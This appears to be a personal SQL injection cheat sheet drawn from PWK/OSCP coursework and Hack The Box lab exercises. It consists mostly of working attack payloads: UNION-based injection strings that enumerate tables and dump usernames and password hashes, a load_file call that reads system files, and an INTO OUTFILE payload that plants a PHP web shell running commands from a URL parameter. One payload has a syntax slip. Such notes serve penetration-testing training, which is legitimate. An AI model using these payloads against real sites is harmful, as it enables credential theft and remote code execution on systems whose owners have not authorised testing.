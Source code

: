 #### PWK example
First get out error with single quote
`/debug.php?id='`
Then use "order by" to find all columns.  Keep increasing until you have an error!  If error occurs on 4, then you have 3 columns!
```
/debug.php?id=1 order by 1,2,3
```
Next, we use UNION to discover which columns are being displayed in the page:
```
/debug.php?id=1 union all select 1, 2, 3
```
We will target #3, as it seems to have the most space available.
```
/debug.php?id=1 union all select 1, 2, @@version
```
```
/debug.php?id=1 union all select 1, 2, user()
```
Enumerate DB tables and column structures:
```
/debug.php?id=1 union all select 1, 2, table_name from information_schema.tables
```
Target users table and retrieve the column names:
```
/debug.php?id=1 union all select 1, 2, column_name from information_schema.columns where table_name='users'
```
Extract usernames and passwords:
```
/debug.php?id=1 union all select 1, username, password from users
```
#### Reading files
```
/debug.php?id=1 union all select 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')
```
Notice when we have an error, we get the whole file path.
We can use this info to craft a malicious php file and place it into the root web directory.
```
/debug.php?id=1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE 'c:/xampp/htdocs/backdoor.php'
```
While we do get an error message, the file did get created and works just fine:
```
/backdoor.php?cmd=ipconfig
```
#### HTB control
https://0xdf.gitlab.io/2020/04/25/htb-control.html
Example from Dante:
```
http://172.16.1.12/blog/single.php?id='
```
The above threw an error:
>You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near ''''' at line 1
We append some known tricks to break out the syntax:
	* If nothing happens here, just continue on to UNION statements!
```
http://172.16.1.12/blog/single.php?id=' -- -
```
We then build up the UNION statement, starting at 1, until the web page renders properly again.  Also, we can see some of the numbers on screen, we can pick which entry is good for our details next.
```
' UNION select 1,2,3,4,5,6,7,8,9-- -
```
Find the version of MariaDB:
```
' UNION select 1,version(),3,4,5,6,7,8,9-- -
```
10.4.13-MariaDB
Retrieve Database name:
```
' UNION select 1,database(),3,4,5,6,7,8,9-- -
```
blog_admin_db
Current user:
```
' UNION select 1,user(),3,4,5,6,7,8,9-- -
```
datadir:
```
' UNION select 1,@@datadir,3,4,5,6,7,8,9-- -
```
List the tables
```SQL
["1650149780')) OR 1=2 UNION SELECT 1,2,3,4,5,6,7,8,9,table_name,11 FROM information_schema.tables#"]
```
List the column names of the wp_users table
```SQL
["1650149780')) OR 1=2 UNION SELECT 1,2,3,4,5,6,7,8,9,column_name,11 FROM information_schema.columns WHERE table_name'wp_users'#"]
```
Found users & passwords to dump.  Start with users
```SQL
["1650149780')) OR 1=2 UNION SELECT 1,2,3,4,5,6,7,8,9,user_login,11 FROM wp_users#"]
```
Then Passwords
```SQL
["1650149780')) OR 1=2 UNION SELECT 1,2,3,4,5,6,7,8,9,user_pass,11 FROM wp_users#"]
```
